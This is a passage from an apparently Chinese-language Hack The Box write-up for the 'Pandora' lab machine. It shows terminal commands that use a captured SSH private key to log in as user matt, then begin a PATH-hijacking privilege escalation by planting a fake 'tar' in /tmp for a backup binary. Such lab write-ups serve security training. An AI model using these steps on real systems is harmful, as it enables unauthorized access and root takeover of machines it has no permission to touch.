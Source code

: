   ```
  ┌──(kali㉿kali)-[~/桌面/HTB/Pandora]
  └─$ vim id_rsa 
  ┌──(kali㉿kali)-[~/桌面/HTB/Pandora]
  └─$ ls -l id_rsa
  -rw-r--r-- 1 kali kali 2603  1月31日 22:57 id_rsa
  ┌──(kali㉿kali)-[~/桌面/HTB/Pandora]
  └─$ chmod 700 id_rsa                                       
  ┌──(kali㉿kali)-[~/桌面/HTB/Pandora]
  └─$ ls -l id_rsa
  -rwx------ 1 kali kali 2603  1月31日 22:57 id_rsa
  ```

+ SSH登录matt并运行二进制文件:

  ```
  ┌──(kali㉿kali)-[~/桌面/HTB/Pandora]
  └─$ ssh matt@10.10.11.136 -i id_rsa 
  ···
  matt@pandora:~$ pwd
  /home/matt
  matt@pandora:~$ /usr/bin/pandora_backup
  PandoraFMS Backup Utility
  Now attempting to backup PandoraFMS client
  tar: Removing leading `/' from member names
  /var/www/pandora/pandora_console/AUTHORS
  tar: Removing leading `/' from hard link targets
  /var/www/pandora/pandora_console/COPYING
  /var/www/pandora/pandora_console/DB_Dockerfile
  /var/www/pandora/pandora_console/DEBIAN/
  /var/www/pandora/pandora_console/DEBIAN/md5sums
  ···
  Backup successful!
  Terminating program!
  ```

  + 运行成功
  
+ PATH 是一个环境变量，它告诉操作系统在哪里搜索可执行文件;对于任何未内置于 shell 或未使用绝对路径定义的命令，Linux 将首先在 PATH环境变量下定义的文件夹中搜索;利用tar命令未使用绝对路经，创建一个tar文件并添加环境变量来提权：

  ```
  matt@pandora:~$ env
  ···
  PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
  ···
  matt@pandora:~$ cd /home/matt
  matt@pandora:~$ cd /tmp
  matt@pandora:/tmp$ vim tar
  matt@pandora:/tmp$ chmod +x tar
  matt@pandora:/tmp$ ls -l
  total 32
  drwx------ 3 root root 4096 Jan 31 13:57 systemd-private-4c9f8bf527f141b6b12cacab56c48b30-apache2.service-cI1k2g
  drwx------ 3 root root 4096 Jan 31 14:42 systemd-private-4c9f8bf527f141b6b12cacab56c48b30-fwupd.service-WKkTIf
  drwx------ 3 root root 4096 Jan 31 13:57 systemd-private-4c9f8bf527f141b6b12cacab56c48b30-systemd-logind.service-FGe51g
  drwx------ 3 root root 4096 Jan 31 13:57 systemd-private-4c9f8bf527f141b6b12cacab56c48b30-systemd-resolved.service-BYCRvh
  drwx------ 3 root root 4096 Jan 31 13:57 systemd-private-4c9f8bf527f141b6b12cacab56c48b30-systemd-timesyncd.service-v75GUf
  drwx------ 3 root root 4096 Jan 31 14:42 systemd-private-4c9f8bf527f141b6b12cacab56c48b30-upower.service-5rdocg
  -rwxrwxr-x 1 matt matt   22 Jan 31 15:30 tar
  drwx------ 2 root root 4096 Jan 31 13:57 vmware-root_722-2966037965
  ```